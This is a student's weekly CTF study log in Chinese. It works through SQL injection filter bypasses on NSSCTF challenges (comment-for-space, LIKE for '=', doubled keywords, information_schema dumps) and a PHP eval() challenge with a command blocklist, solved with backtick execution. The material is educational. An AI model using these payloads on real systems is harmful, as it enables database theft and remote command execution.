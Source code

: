 # 11.4~11.10 WEEK4

## 概况

- 个人博客的搭建
- 周一在nss上刷了几道题，周四又刷了几道sql注入
- isctf web类题型



## 学到的新知

### 1.个人博客的搭建

详见：https://aye-hoyosei.github.io/



### 2.空格绕过

输入：?wllm=1,得到：

```
Want Me? Cross the Waf

Your Login name:xxx

Your Password:yyy
```

 输入：?wllm=1',得到：

You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ''1'' LIMIT 0,1' at line 1

由报错可得注入点为：单引号字符型

 输入：?wllm=1'--+,得到：

请勿非法操作！

猜测大抵是有些字符被过滤了

```
输入：?wllm=1'--+,没有提示非法输入；

输入：?wllm=1' --,提示非法输入

输入：?wllm=1'--a,报错

输入：?wllm=1'#,报错
```

可知空格被过滤了

//空格可以用/**/代替

//#可以用%23代替

 输入：

```
?wllm=1'order/**/by/**/1%23

?wllm=1'order/**/by/**/4%23

?wllm=-1'union/**/select/**/1,2,3%23

?wllm=-1'union/**/select/**/1,database(),version()%23
```

输入：

```
?wllm=-1'union/**/select/**/1,2,group_concat(table_name)/**/from/**/information_schema.tables/**/where/**/table_schema='test_db'%23
```

发现提示非法输入，经过检查，发现是=被过滤了

**//用like代替等号**

输入：

```
?wllm=-1'union/**/select/**/1,2,group_concat(table_name)/**/from/**/information_schema.tables/**/where/**/table_schema/**/like/**/'test_db'%23

?wllm=-1'union/**/select/**/1,2,group_concat(column_name)/**/from/**/information_schema.columns/**/where/**/table_name/**/like/**/'LTLT_flag'%23

?wllm=-1'/**/union/**/select/**/1,2,flag/**/from/**/LTLT_flag%23
```

得到flag的前半段

输入：

```
?wllm=-1'/**/union/**/select/**/1,2,substr(flag,20,20)/**/from/**/LTLT_flag%23
```

发现提示非法输入，经过检查，发现substr被过滤 

输入：

```
?wllm=-1'/**/union/**/select/**/1,2,mid(flag,21,20)/**/from/**/LTLT_flag%23

?wllm=-1'/**/union/**/select/**/1,2,mid(flag,41,60)/**/from/**/LTLT_flag%23
```

**//mid(column_name,start[,length])=>mid(字符串名，开始位置，返回的字符数）**

**EX:str=“ABCDEFG” mid(str,2,1)结果为B**

### 

### 3.双写绕过

打开网站，通过提示得知：

用更安全的传参方式post，所以以post方式传一个nss的参

输入：nss=1,得到两个fakeflag

Flag: NSSCTF{This_1s_F4ke_flag}

This is true flag: NSSCTF{Ar3_y0u_K1ngd1ng}

 输入：nss=1,结果为：

You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ''1'' LIMIT 0,1' at line 1

由此可得注入点为单引号字符

```
输入：nss=1'--+，发现报错：

输入：nss=1'#，没有报错
```

由此可推断出空格被过滤

```
输入：nss=1'order/**/by/**/1#,发现报错
```

可知order被过滤了

```
尝试一下大小写绕过，输入：nss=1'OrdER/**/by/**/1#，发现仍然报错

再试一下双写绕过：输入：nss=1'oorrder/**/by/**/1#，发现正常显示

或者输入：nss=1'group/**/by/**/1#
```

输入

```
nss=-1'union/**/select/**/1,2,3#，发现报错，可以猜测union select被过滤了

nss=-1'ununionion/**/select/**/1,2,3#，回显的依旧是两个假flag没有变化
```

 因为nss=2时无回显，所以输入：

```
nss=2'ununionion/**/select/**/1,2,3/**/limit/**/1,1#
```

得到：

Flag: 2

This is true flag: 3

 输入：

```
nss=-2'ununionion/**/select/**/1,database(),version()#

nss=-2'/**/ununionion/**/select/**/1,2,group_concat(table_name)/**/from/**/information_schema.tables/**/where/**/table_schema='NSS_db'#
```

发现报错，经过尝试，发现information被过滤

 输入：

```
nss=-2'/**/ununionion/**/select/**/1,2,group_concat(table_name)/**/from/**/infoorrmation_schema.tables/**/where/**/table_schema='NSS_db'#

nss=-2'/**/ununionion/**/select/**/1,2,group_concat(column_name)/**/from/**/infoorrmation_schema.columns/**/where/**/table_name='NSS_tb'#
```

 输入：

```
nss=-2'/**/ununionion/**/select/**/1,2,group_concat(flll444g)/**/from/**/NSS_tb#

nss=-2'/**/ununionion/**/select/**/1,2,group_concat(Secr3t)/**/from/**/NSS_tb#
```

得到flag

 

###  4.print函数

打开网站得到一段代码：

```php
<?php

\## 放弃把，小伙子，你真的不会RCE,何必在此纠结呢？？？？？？？？？？？？

if(isset($_GET['code'])){

  $code=$_GET['code'];

  if (!preg_match('/sys|pas|read|file|ls|cat|tac|head|tail|more|less|php|base|echo|cp|\$|\*|\+|\^|scan|\.|local|current|chr|crypt|show_source|high|readgzfile|dirname|time|next|all|hex2bin|im|shell/i',$code)){

​    echo '看看你输入的参数！！！不叫样子！！';echo '<br>';

​    eval($code);

  }

  else{

​    die("你想干什么？？？？？？？？？");

  }

}

else{

  echo "居然都不输入参数，可恶!!!!!!!!!";

  show_source(__FILE__);

}
```

 发现过滤了system函数和ls，cat等命令，但经过搜索，发现print函数可以被使用

输入

```
?code=print `l\s /`;

?code=print `ta\c /fffffffffflagafag`;
```

得到flag

 

## 下周目标

1.继续刷sqli-labs

2.等下周期中考试结束开始学python（打完sictf还是觉得要赶快学习写python，要不然写不了脚本，只能手撕）